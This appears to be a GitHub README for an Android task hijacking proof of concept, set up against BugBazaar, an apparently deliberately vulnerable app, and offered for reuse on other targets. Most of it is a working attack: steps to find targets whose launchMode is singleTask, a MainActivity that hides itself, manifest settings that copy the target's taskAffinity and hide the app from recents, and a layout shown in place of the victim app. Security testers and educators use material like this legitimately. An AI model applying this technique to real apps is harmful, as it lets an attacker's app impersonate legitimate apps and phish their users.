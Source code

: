 # Task Hijacking POC
This is a sample project which will help to exploit and create a POC for Task Hijacking Attack. This repository already have configured to exploit Task Hijacking vulnerability on [BugBazaar](https://github.com/payatu/BugBazaar)  application. Feel free to use this repo to create poc for your project.

### Steps to exploit Task Hijacking
1. Open Target application and make sure it is running properly. 
2. Decompile the apk of your target application and check "android:launchMode" value in AndroidManifest.xml file. If it's set to `singleTask` then application is exploitable.
3. Now create a new project in Android Studio or use this project.
4. In MainActivity.java, put following code:
```
    public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```
5. In AndroidManifest.xml file, put following line of code in <application> element. Make sure to replace package name with your target app package name.
  `android:taskAffinity="com.TargetApp.PackageName"`
	
6. Replace MainActivity declaration with following line of code:
	`<activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true" android:exported="true">`

7. Replace activity_main.xml layout content with following content:
```
<?xml version="1.0" encoding="utf-8"?>
<LinearLayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:orientation="vertical"
    android:gravity="center"
    tools:context=".MainActivity">

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Attacker's Application"
        android:textSize="35dp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Task Hijacking Demo"
        android:textSize="20sp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

</LinearLayout>

```
8. Run this application inside the same device where Target App is installed.
9. Our app will open and close quickly. It will not also can be seen in recent apps.
10. Now open Target application and you will see instead, target application, our malicious app will be opened.
